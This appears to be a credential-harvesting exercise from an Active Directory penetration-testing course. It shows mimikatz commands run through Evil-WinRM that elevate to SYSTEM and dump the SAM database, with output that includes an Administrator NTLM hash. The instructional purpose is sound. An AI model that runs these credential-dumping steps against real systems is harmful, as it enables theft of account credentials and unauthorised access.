 ## Exercise 4: Credential Harvesting

After obtaining local administrator access on a domain-joined machine, it is common to find credentials stored both on disk (via registry hives) and in memory (LSASS.exe).

If you're using `mimikatz` with Evil-WinRM or any other "fork and run" shell, remember to suffix every command with "exit" to ensure that the shell is closed properly.

Some keys are only accessible by `SYSTEM`, and as a result you'll need to escalate to `NT AUTHORITY\SYSTEM` to access them. `mimikatz` helps with this by allowing you to run commands as `SYSTEM` using the `token::elevate` command.

```
mimikatz(commandline) # lsadump::sam
Domain : FS
SysKey : da7f3024df727946f1eaf1a2056acd53
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz(commandline) # exit
Bye!
```

### 4.1. SAM

SAM contains local user accounts and groups, as well as their hashed passwords. The SAM file is located at `C:\Windows\System32\config\SAM` and is protected by the operating system. However, it can be accessed by the local SYSTEM account.

```
*Evil-WinRM* PS C:\windows\tasks> .\mimikatz.exe "token::elevate" "lsadump::sam" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

720     {0;000003e7} 1 D 33311          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;3fcbd9f2} 0 D 1070426206  async\Tyler_ROSE        S-1-5-21-2085372437-1578838935-3393986013-1372  (11g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1070526771  NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::sam
Domain : FS
SysKey : da7f3024df727946f1eaf1a2056acd53
Local SID : S-1-5-21-2179374997-3008092852-1119610992

SAMKey : abdec5baf07fabeb1041df680b03351f

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 71814d1859b0978e96b4b558548ba860
...
```
